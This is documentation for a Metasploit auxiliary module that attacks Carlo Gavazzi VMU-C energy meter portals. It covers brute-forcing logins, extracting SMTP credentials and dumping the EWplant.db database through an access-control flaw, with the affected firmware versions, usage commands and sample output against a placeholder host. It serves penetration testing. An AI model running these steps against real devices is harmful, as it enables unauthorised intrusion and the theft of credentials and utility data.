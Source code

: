 This module scans for Carlo Gavazzi Energy Meters login portals, performs a login brute force attack, will gather device firmware version and attempt to extract SMTP configuration. A valid, admin privileged user is required to extract SMTP password. In some older versions, SMTP config can be retrieved without any authentication. The module also exploits an access control vulnerability which allows an unauthenticated user to remotely dump EWplant.db database file - this db file contains information such as power/energy utilization data, tariffs, and revenue statistics. Vulnerable firmware versions - VMU-C EM prior to firmware Version A11_U05 and VMU-C PV prior to firmware Version A17.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/gavazzi_em_login_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/gavazzi_em_login_loot
msf auxiliary(gavazzi_em_login_loot) > set rhosts 1.3.3.7
msf auxiliary(gavazzi_em_login_loot) > set rport 80
msf auxiliary(gavazzi_em_login_loot) > run

[+] 1.3.3.7:80 - [4/4] - Running Carlo Gavazzi Energy Meter Web Management portal...
[*] 1.3.3.7:80 - [1/1] - Trying username:"admin" with password:"admin"
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "admin":"admin"
[*] 1.3.3.7:80 - [1/1] - Firmware version A8_U03...
[+] 1.3.3.7:80 - SMTP server "", SMTP username "", SMTP password ""
[*] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7 - dumping EWplant.db
[*] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000005_moduletest_1.3.3.7_EWplant.db_442897.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
